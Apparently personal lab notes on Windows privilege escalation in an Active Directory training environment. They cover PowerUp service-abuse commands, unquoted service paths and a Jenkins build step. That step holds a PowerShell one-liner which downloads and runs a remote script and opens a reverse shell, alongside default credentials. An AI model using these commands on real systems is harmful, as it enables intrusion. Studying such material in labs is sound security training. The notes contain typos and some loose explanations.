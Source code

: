 # Privilege Esclation

Local privilege esclation done by service issue

There are three type of service issue are there:

Services Issues using PowerUp
- 1) Get services with unquoted paths and a space in their name.
>Get-ServiceUnquoted -Verbose
- 2) Get services where the current user can write to its binary path or
change arguments to the binary
>Get-ModifiableServiceFile -Verbose
- 3) Get the services whose configuration current user can modify.
>Get-ModifiableService -Verbose

When we run this command 
>Get-WMIObject -Class win32_service | select pathname

this will list all path of running services

`Note: This command is execute in Domain Administrator`


- **First**

If service is running with qoute any one can alter data
Like: 
`C:\FTPServer\FTP server\Filezilla\ftp.exe`
This is service path and having space

If we replace the file or create a malicious file of name FTP.exe
whenever FTP sercice restart it will execute FTP.exe
`C:\FTPServer\FTP.exe`

If it was Quoted it will run exactly same path what it was configured.

- **Second**
  
If executable permission is not set properly like user can edit it binary or put metasploit payload in executable file this create vulnerability

- **Third**
  
If command executable permission is not configured properly means, there are some command and built in tool which user do not have access to run. If user are able to run  built in command and tool. This creates a vulnerability.


### Exploit a service on dcorp-studentx and elevate privileges to local administrator. 

Use `powerup.ps1`
>Invoke-AllChecks

We will get all service name with path.\
Abuse service detail with path where we can check the path is qouted or not.

We  will get all service permission information

Run command to check service abuse function
> help Invoke-ServiceAbuse -Example

This command show how to abuse vulnerable service 

Commmand 
>Invoke-ServiceAbuse -Name Abbyserver -UserName dcorp/student1 -Verbose
![image](https://github.com/peaceasad/Active-Directory/assets/59176416/7bfefc76-20d4-46a4-8c81-fcd12aee4b76)




Above pic is example how this function work

Now run command to check administrator
>net localgroup Administrators

### Using privileges of a user on Jenkins on 172.16.3.11:8080, get admin privileges on 172.16.3.11 - the dcorp-ci server.
Through Jenkins we will get admin shell  of CI admin.  
Jenking is running on $ip:8080 

Default Username and password is builduser:builduser

Use one of Project and confifure a script
(See lab manual page 33)
`powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -
UseBasicParsing);Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port
443`

Than open netcat listner in student machine 

Open HFS server in student vm to send file   
HFS is like python server we start to send data over http.

Now click on build to execute project on jenkin server, wait for moment we will get reverse connection.




